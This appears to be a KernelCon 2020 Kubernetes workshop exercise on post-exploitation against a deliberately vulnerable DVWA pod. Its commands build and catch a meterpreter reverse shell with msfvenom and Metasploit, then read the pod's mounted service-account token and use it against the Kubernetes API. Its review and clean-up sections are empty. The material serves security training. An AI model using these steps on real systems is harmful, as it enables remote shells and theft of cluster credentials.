 # Exercise 15 (Access Control)

## Preface:
This exercise is not meant to provide you with an extensive "hacking" experience! We all know the majority of pen testing issues come from misconfiguration. Therefore we assume this container is exploitable so we will focus on post exploitation. If you do not wish to do any of the ___metasploit___ steeps, just skip to [This section]() to pick it up at the shell.

### Env Setup
- cd into the ``` KernelCon2020K8s/Exercises/Break/Files/break_e15 ``` folder and deploy the pod we will be working with.

```bash
kubectl apply -f setup.yaml
```
- this should deploy the needed resources including ingress.
- once running you should be able to access the site through the ingress port [https://k8s.kernelcon2020.org/](https://k8s.kernelcon2020.org/)
- login with the credentials ___"admin"___ and ___"admin"___

![Login1](Files/images/dvwa_login1.png)

- once logged in, scroll to the bottom and click the "" button to initialize the DB

![Login2](Files/images/dvwa_login2.png)

### MSF Setup

- build a meterpreter payload and put it on your desktop
- make it executable
- Make sure msf is setup and installed correctly
- enter the msfconsole

```bash
# prep the env.

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$(ifconfig eth0 |grep -i "inet " |awk '{print $2}') LPORT=4545 -f elf > ~/Desktop/rshell
chmod 0777 ~/Desktop/rshell
apt update; apt install metasploit-framework
gem install bundler
msfconsole
```

- Good now that you are in the msf console, we should setup a handler and payload
- add our eth0 IP and a port to the options
- set the ExitOnSession to false
- start listening for sessions.

```bash
### form inside msfconsole, start a 
msf> use exploit/multi/handler
msf> set payload linux/x86/meterpreter/reverse_tcp
msf> set lhost YOUR_ETH0_IP_ADDRESS
msf> set lport 4545
msf> set ExitOnSession false
msf> exploit -j
```

- you should see a session start as soon as you run the command
- enter the session, then enter the shell
- spawn a new tty

```bash
### once seeeion is open
sessions 1

### in session
shell

### spawn new tty
/bin/sh -i

```

#### Note by default (unless you change it) k8s will auto mount the default service account for a namespace INTO EVERY POD in that namespace!!!

#### you can get at this info from inside the container via the file system @ ```/run/secrets/kubernetes.io/serviceaccount/token``` and you can get the api-server info via the two environment variables ___$KUBERNETES_SERVICE_HOST___ ___$KUBERNETES_SERVICE_PORT___

```bash
### is curl here ?

curl -k https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/

### nope! but apt is ;-)

apt-get update && apt-get install curl

### now that we have curl we can grab the service account that was automaticly mounted into the container ...
export TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)

### now that we have a token we can check our permissions

curl -k -H "Authorization: Bearer $TOKEN" https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/




```




## Review:



## Clean up:

 [Return to schedule](../../Docs/SCHEDULE.md)